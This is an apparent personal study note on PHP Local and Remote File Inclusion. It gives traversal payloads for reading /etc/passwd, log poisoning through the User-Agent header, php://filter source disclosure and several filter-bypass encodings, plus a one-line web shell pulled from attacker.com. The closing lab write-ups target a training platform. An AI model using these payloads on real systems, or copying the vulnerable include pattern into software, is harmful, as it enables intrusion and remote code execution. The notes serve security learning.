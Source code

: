 #+title: Local File Inclusion (LFI)
#+author: gabriel

* intro
Local File Inclusion (LFI) is a security vulnerability that enables attackers to include local files in web applications, allowing them to extract sensitive information from the server.

This vulnerability often occurs due to the lack of validation or insufficient control over file name or path inputs provided by users.

[[./imgs/lfi.png]]

LFI vulnerabilities typically occur in dynamic file inclusion operations, as shown in the example below ->
#+begin_src php
<?php
    $file = $_GET['page'];
    include($file);
?>
#+end_src

In this example, the page parameter is obtained from the user and directly passed to the include function. If the user submits a value like page=../../../../etc/passwd, the server may include the /etc/passwd file.

The ../ expression used in LFI payloads represents the parent directory in Linux systems. For instance, while trying to access the /etc/passwd file, the web application might search for this file within a directory such as /var/www/html/project.

*Linux servers* ->
: /etc/passwd, /etc/hosts, /var/log/apache2/access.log
*Windows servers* ->
: C:\Windows\win.ini, C:\Windows\System32\drivers\etc\hosts

** acessing log files
: http://example.com/index.php?page=../../../../var/log/apache2/access.log

** php code injection (log poisoning)
LFI vulnerabilities can allow attackers to execute malicious PHP code. For instance, if a malicious PHP code is added to the web server's access logs, it can be executed using the LFI vulnerability.

Below is an HTTP request with a PHP code injected into the User-Agent field.
#+begin_src php
GET /index.php HTTP/1.1
User-Agent: <?php system('ls'); ?>
#+end_src

After sending this request, the attacker can view the access.log file from the browser.
: http://example.com/index.php?page=../../../../var/log/apache2/access.log

In this case, the malicious PHP code is executed on the server, enabling the attacker to list the files in the server's file system.

** REading files with PHP://filter
PHP's php://filter feature allows applying specific filters while reading file contents. For instance, Base64 encoding a file's content can be useful when direct access to the file is restricted.

*payload* ->
: php://filter/convert.base64-encode/resource=home.php

: http://example.com/index.php?page=php://filter/convert.base64-encode/resource=home.php

*output* ->
: PD9waHAKCmVjaG8gImhlbGxvIHdvcmxkIjsKCj8+

*decoding the base64* ->
: echo 'PD9waHAKCmVjaG8gImhlbGxvIHdvcmxkIjsKCj8+' | base64 -d

* bypass techniques
Many web applications implement various protection mechanisms against Local File Inclusion (LFI) vulnerabilities. However, these protections are often insufficient and can be bypassed using various techniques.

** path traversal
Some web applications use simple search-and-replace filters to block path traversal sequences (../). These filters are designed to strip out instances of ../ to prevent directory traversal attacks.

: $language = str_replace('../', '', $_GET['language']);

This code aims to block directory traversal by removing ../ sequences. However, such filters are often inadequate because they typically process the input only once and do not re-filter the output. Therefore, it is possible to bypass the filter by using inputs like ....//.

*bypass method* ->
: https://example.com/index.php?language=....//....//....//....//etc/passwd

In this way, even though the ../ sequences are stripped out, we can still perform directory traversal. Similarly, other variations such as ..././ or ..../ can be used.

** encoding
Some web applications use filters that block inputs containing characters related to LFI. However, these filters can be bypassed using URL encoding. URL encoding allows us to encode dangerous characters, which will still be decoded back into the traversal strings.

For instance, if inputs containing . and / characters are blocked, we can URL encode ../ as %2e%2e%2f.
: https://example.com/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

This URL-encoded LFI payload bypasses server-side filters, allowing directory traversal to read the /etc/passwd file.

** approved paths
Some web applications use regular expressions (regex) to ensure that the included file is within a specified directory.

*example* ->
#+begin_src php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Invalid path specified!';
}
#+end_src

In the above code snippet, the path provided by the user is checked to ensure it starts with . /languages/.
To bypass this filter, we ensure the input starts with the allowed path and then use ../ to traverse to the root directory:
: https://example.com/index.php?language=./languages/../../../../etc/passwd


** null byte injection
Some web applications append a certain extension (e.g., .php) to the input filename to restrict file inclusion. However, in older PHP versions, these filters can be bypassed using null byte (%00) injection

*null byte character: %00* ->
: https://example.com/index.php?language=/etc/passwd%00

This way, the appended .php extension is ignored, allowing the inclusion of the /etc/passwd file.

** double encoding
In some cases, a single URL encoding is not enough and stronger filters are applied. To bypass such filters, we can use double encoding. Double encoding means encoding the input twice with URL encoding to bypass the filters.
: https://example.com/index.php?language=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%65%74%63%252f%70%61%73%73%77%64

In this example, %25 represents the % sign, and decoding the double-encoded string allows for directory traversal.

* remote file inclusion (RFI)
Remote File Inclusion (RFI) is a serious security vulnerability that allows attackers to include files from a remote server, enabling the execution of malicious code.

[[./imgs/rfi.png]]

RFI vulnerabilities occur when web applications use user inputs in file inclusion functions without proper control. This vulnerability allows attackers to include files from a remote server, enabling them to execute malicious code on the target server.

The core concept of RFI attacks is that the web application uses user-provided input as a file path, and this input allows the inclusion of a file from a remote server. For example:
#+begin_src php
<?php
    $file = $_GET['page'];
    include($file);
?>
#+end_src

This code includes the file specified in the page parameter. If a user sends https://example.com/index.php?page=https://<attacker-server>/shell.txt, the application includes and executes the shell.txt file from the remote server.

** differences between LFI and RFI
*FIle location* ->
- LFI: Includes local files. The attacker gains access to files on the target server.
- RFI: Includes remote files. The attacker includes files from a remote server to execute malicious code.

  *attack method* ->
- LFI: The attacker manipulates file paths on the target server, often targeting server configuration files, password files, or other sensitive information.
- RFI: The attacker includes files from a remote server, typically to execute malicious code and take control of the target server.

  *requirements* ->
- LFI: The attacker only needs to know the internal file paths on the server.
- RFI: PHP configurations such as allow_url_include and allow_url_fopen need to be enabled.

  *protection methods* ->
- LFI: Strictly validate and filter user inputs, fix file paths, and set permissions correctly.
- RFI: Disable allow_url_include and allow_url_fopen, strictly validate and filter user inputs.

** basic RFI attack
Attackers create a malicious file on a remote server and attempt to include this file on the target server. For example, the attacker hosts a web shell at https://<attacker-server>/shell.php:

*shell.php* ->
#+begin_src php
<?php system($_GET['cmd']); ?>
#+end_src

The attacker then sends a request to the target server with the following URL:
: https://example.com/index.php?page=https://attacker.com/shell.php

This request includes the shell.php file from the remote server and allows the attacker to execute commands.

** malicious code injection
Attackers can include malicious code from a remote server to be executed on the target server. This method is used to take control of the target server. For example, including a PHP web shell allows the attacker to execute commands.

RFI vulnerabilities can allow attackers to access sensitive files on the target server and steal credentials. For instance, database usernames and passwords stored in a config.php file can be stolen.

* basic local file inclusion
This lab contains a Local File Inclusion (LFI) vulnerability that leads to unauthorized access to local files within the system.

The content of the 404 error page you see in the web application is fetched from the path in the "page" parameter in the URL. By changing the "page" parameter, you can access other files on the system.

What is the username of the last user added in /etc/passwd?

*solved* ->
#+begin_src python
GET /index.php?page=../../../etc/passwd HTTP/1.1
Host: steady-inertia.europe1.hackviser.space
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

#+end_src

Just another path traversal, path traversal = lfi sometimes ??

* Local file inclusion filter bypass
This lab contains a Local File Inclusion (LFI) vulnerability that leads to unauthorized access to local files within the system.

The content of the 404 error page you see in the web application is fetched from the path in the "page" parameter in the URL. By changing the "page" parameter, you can access other files on the system.

"/" and ".." are blocked to prevent LFI vulnerability. Find a way to bypass this restriction.

What is the username of the last user added in /etc/passwd?
